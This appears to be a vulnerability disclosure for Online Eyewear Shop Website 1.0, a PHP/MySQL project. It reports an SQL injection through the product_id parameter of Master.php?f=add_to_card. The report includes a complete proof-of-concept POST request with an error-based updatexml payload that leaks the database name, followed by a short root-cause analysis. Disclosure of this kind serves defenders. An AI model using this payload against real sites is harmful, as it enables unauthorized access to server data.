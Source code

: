 ## Online Eyewear Shop Website has a front-end SQL injection vulnerability

## Affected version: 
Online Eyewear Shop Website - 1.0

## Software:
https://www.sourcecodester.com/php/16089/online-eyewear-shop-website-using-php-and-mysql-free-download.html

## Vulnerability File:
/oews/classes/Master.php?f=add_to_card

## Description:
Online Eyewear Shop Website1.0 has a SQL injection attack in /oews/classes/Master.php?f=add_to_card, and the attack parameter is product_id. 
Attackers can exploit this vulnerability to directly obtain sensitive information from the server.

Status: CRITICAL

POC
```
POST /oews/classes/Master.php?f=add_to_card HTTP/1.1
Host: localhost
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="101"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=p65p1sp36htfqevfnhij1jvtie
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

product_id=1'%20and%20updatexml(1,concat(0x7e,(database())),3)--%20q
```

Get the database name directly through the error report: oews_db

![CleanShot 2025-04-10 at 21 11 33@2x](https://github.com/user-attachments/assets/09a76dab-4e09-485d-80f4-698cc4d3878b)


## Code Analysis
$product_id is directly introduced into the SQL statement, causing SQL injection.

![CleanShot 2025-04-10 at 21 14 04@2x](https://github.com/user-attachments/assets/2a58eb01-1b04-4800-9960-3d574d18e730)


